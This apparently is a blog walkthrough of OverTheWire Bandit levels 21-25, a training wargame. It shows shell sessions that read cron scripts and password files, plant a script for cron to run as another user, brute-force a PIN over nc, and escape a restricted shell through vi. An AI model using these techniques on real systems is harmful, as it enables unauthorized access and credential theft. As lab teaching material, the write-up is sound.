 ```yaml
---
layout: post
title:  "OverTheWire Bandit Levels 21-25"
tags: overthewire-bandit
---
```


## Level 21
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
```
bandit21@bandit:~$ cat /etc/cron.d/cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
bandit21@bandit:~$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit21@bandit:~$ ssh bandit22@localhost
bandit22@localhost's password:
```

## Level 22
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

**NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.**
```
bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit22@bandit:~$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
bandit22@bandit:~$ cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
bandit22@bandit:~$ ssh bandit23@localhost
bandit23@localhost's password:
```

## Level 23
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

**NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!**

**NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…**
```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
bandit23@bandit:~$ cd /tmp/scottctaylor12
bandit23@bandit:/tmp/scottctaylor12$ touch bandit24-pass.sh
bandit23@bandit:/tmp/scottctaylor12$ chmod 777 bandit24-pass.sh
(WRITE SCRIPT)

bandit23@bandit:/tmp/scottctaylor12$ cat bandit24-pass.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/scottctaylor12/PASSWORD
chmod 666 /tmp/scottctaylor12/PASSWORD
bandit23@bandit:/tmp/scottctaylor12$ cp bandit24-pass.sh /var/spool/bandit24/
bandit23@bandit:/tmp/scottctaylor12$ cat PASSWORD
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
bandit23@bandit:/tmp/scottctaylor12$ ssh bandit24@localhost
bandit24@localhost's password:
```
## Level 24
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
```
bandit24@bandit:~$ cd /tmp/scottctaylor12
bandit24@bandit:/tmp/scottctaylor12$ touch brute-force-25.sh
bandit24@bandit:/tmp/scottctaylor12$ chmod 777 brute-force-25.sh
(EDIT brute-force-25.sh)
bandit24@bandit:/tmp/scottctaylor12$ cat brute-force-25.sh
#!/bin/bash
PASS=$(cat /etc/bandit_pass/bandit24)

for i in {0000..9999}
do
    echo $i
    echo $PASS $i | nc localhost 30002
done

bandit24@bandit:/tmp/scottctaylor12$ ./brute-force-25.sh >> output
(AN HOUR LATER.....)
bandit24@bandit:/tmp/scottctaylor12$ cat output | grep -i -A2 -B2 ^correct
5440
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is sh
bandit24@bandit:/tmp/scottctaylor12$ ssh bandit25@localhost
bandit24@localhost's password:
```

## Level 25
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
```
bandit25@bandit:~$ ls
bandit26.sshkey
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
..
Connection to localhost closed
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
(SHRINK WINDOW TO SHOW 3 LINES)
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
v
:set shell=/bin/bash
:shell
bandit26@bandit:~$
```

Continue to OverTheWire Bandit [Levels 26-30](https://scottctaylor12.github.io/2018/09/15/otw-bandit21-25.html)
